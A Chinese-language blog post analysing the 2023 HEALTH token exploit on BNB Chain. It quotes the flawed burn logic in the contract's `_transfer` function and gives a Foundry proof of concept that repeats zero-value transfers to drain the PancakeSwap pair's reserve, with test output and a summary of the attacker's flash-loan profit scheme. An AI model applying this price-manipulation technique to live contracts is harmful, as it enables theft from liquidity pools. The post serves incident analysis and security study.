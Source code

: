 ```yaml
---
title: "HealthToken Attack Analysis"
date: 2023-04-27T13:08:06+08:00
draft: false
author: yinhui
categories: [security]
tags: [defi] 
---
```


HEALTH Token 攻击案例分析

<!--more-->

## 漏洞分析

攻击 tx: https://bscscan.com/tx/0xae8ca9dc8258ae32899fe641985739c3fa53ab1f603973ac74b424e165c66ccf

被攻击合约: [0x32B166e082993Af6598a89397E82e123ca44e74E](https://bscscan.com/address/0x32B166e082993Af6598a89397E82e123ca44e74E) 

合约中的`_transfer`函数如下:

```solidity
    function _transfer(address from, address to, uint256 value) private {
        require(value <= _balances[from]);
        require(to != address(0));
        
        uint256 contractTokenBalance = balanceOf(address(this));

        bool overMinTokenBalance = contractTokenBalance >= numTokensSellToAddToLiquidity;
        if (
            overMinTokenBalance &&
            !inSwapAndLiquify &&
            to == uniswapV2Pair &&
            swapAndLiquifyEnabled
        ) {
            contractTokenBalance = numTokensSellToAddToLiquidity;
            //add liquidity
            swapAndLiquify(contractTokenBalance);
        }
        if (block.timestamp >= pairStartTime.add(jgTime) && pairStartTime != 0) {
            if (from != uniswapV2Pair) {
                uint256 burnValue = _balances[uniswapV2Pair].mul(burnFee).div(1000);
                _balances[uniswapV2Pair] = _balances[uniswapV2Pair].sub(burnValue);
                _balances[_burnAddress] = _balances[_burnAddress].add(burnValue);
                if (block.timestamp >= pairStartTime.add(jgTime)) {
                    pairStartTime += jgTime;
                }
                emit Transfer(uniswapV2Pair,_burnAddress, burnValue);
                IPancakePair(uniswapV2Pair).sync();
            }
        }
        uint256 devValue = value.mul(devFee).div(1000);
        uint256 bValue = value.mul(bFee).div(1000);
        uint256 newValue = value.sub(devValue).sub(bValue);
        _balances[from] = _balances[from].sub(value);
        _balances[to] = _balances[to].add(newValue);
        _balances[address(this)] = _balances[address(this)].add(devValue);
        _balances[_burnAddress] = _balances[_burnAddress].add(bValue);
        
        emit Transfer(from,to, newValue);
        emit Transfer(from,address(this), devValue);
        emit Transfer(from,_burnAddress, bValue);
    }
```

其中有一段逻辑是: 每进行一笔转账,就会销毁掉一部分token, 也就是将uniswapV2Pair的余额减去一部分,将_burnAddress的余额增加一部分.

```solidity
            if (from != uniswapV2Pair) {
                uint256 burnValue = _balances[uniswapV2Pair].mul(burnFee).div(1000);
                _balances[uniswapV2Pair] = _balances[uniswapV2Pair].sub(burnValue);
                _balances[_burnAddress] = _balances[_burnAddress].add(burnValue);
                if (block.timestamp >= pairStartTime.add(jgTime)) {
                    pairStartTime += jgTime;
                }
                emit Transfer(uniswapV2Pair,_burnAddress, burnValue);
                IPancakePair(uniswapV2Pair).sync();
            }
```

但是销毁的量并没有依据transfer时的value进行计算, 而是根据`_balances[uniswapV2Pair].mul(burnFee).div(1000)`进行计算的, 假如`burnFee`是`1`, 那么任意数量的转账都会销毁uniswapV2Pair余额的千分之一, 哪怕转账数量是0.

这就导致了一个严重的bug: 重复进行`value`为0的转账, 用户手中的币并不会减少, 但`uniswapV2Pair`的余额却在不断减少, 这就导致了 pair 中 token0 (WBNB) 与 token1(HEALTH token)的比率不断变化, 也就是相比于WBNB, HEALTH token的价格越来越高. 这就形成了价格操纵.



## POC

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.10;

import "forge-std/Test.sol";

interface IERC20 {
    function decimals() external view returns (uint8);

    function symbol() external view returns (string memory);

    function balanceOf(address owner) external view returns (uint256);

    function transfer(address to, uint256 value) external returns (bool);
}

interface IPancakePair {
    function token0() external view returns (address);

    function token1() external view returns (address);

    function getReserves()
        external
        view
        returns (uint112 reserve0, uint112 reserve1, uint32 blockTimestampLast);
}

IERC20 constant HealthToken = IERC20(
    0x32B166e082993Af6598a89397E82e123ca44e74E
);

IERC20 constant WBNB = IERC20(0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c);

IPancakePair constant pancakePair = IPancakePair(
    0xF375709DbdE84D800642168c2e8bA751368e8D32
);

contract Hack is Test {
    function setUp() public {
        vm.createSelectFork("theNet", 22337400); //bsc
    }

    function testPoc() public {
        console2.log("token0 is:", IERC20(pancakePair.token0()).symbol());
        console2.log("token1 is:", IERC20(pancakePair.token1()).symbol());

        (uint112 token0, uint112 token1, ) = pancakePair.getReserves();
        emit log_named_decimal_uint(
            "[before]token0",
            token0,
            IERC20(pancakePair.token0()).decimals()
        );
        emit log_named_decimal_uint(
            "[before]token1",
            token1,
            IERC20(pancakePair.token1()).decimals()
        );

        // 连续0转账500次
        for (uint i = 0; i < 500; i++) {
            HealthToken.transfer(address(this), 0);
        }

        (token0, token1, ) = pancakePair.getReserves();
        emit log_named_decimal_uint(
            "[after]token0 ",
            token0,
            IERC20(pancakePair.token0()).decimals()
        );
        emit log_named_decimal_uint(
            "[after]token1 ",
            token1,
            IERC20(pancakePair.token1()).decimals()
        );
    }
}

```

输出:

```sh
[PASS] testPoc() (gas: 11524943)
Logs:
  token0 is: HEALTH
  token1 is: WBNB
  [before]token0: 62563539.073327292627431307
  [before]token1: 38.502835300011026965
  [after]token0 : 37937212.810065723981756912
  [after]token1 : 38.502835300011026965
```

以循环500次为例, pair中的HEALTH token数量减少了接近一半, 也就是价格涨了接近一半.

在实际攻击中, 攻击者先利用闪电贷贷款了WBNB, 然后用WBNB swap了一些 HEALTH, 然后操作价格, 再高价将手中的HEALTH通过swap卖出而获利.

